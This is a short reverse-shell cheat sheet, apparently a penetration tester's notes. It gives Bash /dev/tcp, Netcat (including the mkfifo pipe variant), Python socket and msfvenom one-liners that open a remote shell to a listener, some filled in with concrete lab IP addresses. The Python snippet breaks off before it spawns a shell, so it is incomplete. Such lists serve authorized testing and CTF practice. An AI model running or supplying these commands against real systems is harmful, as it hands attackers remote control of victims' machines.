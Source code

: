 https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
## Bash
```
bash -i >& /dev/tcp/$ip/4444 0>&1

For editing purposes:
bash -i >& /dev/tcp/10.10.14.87/4444 0>&1
```
## Netcat
```
nc -e /bin/sh $ip 4444

OR

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip 4444 >/tmp/f

For editing purposes:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.87 4444 >/tmp/f
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
## msfvenom
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.220 LPORT=443 -f elf -o reverse.elf
```

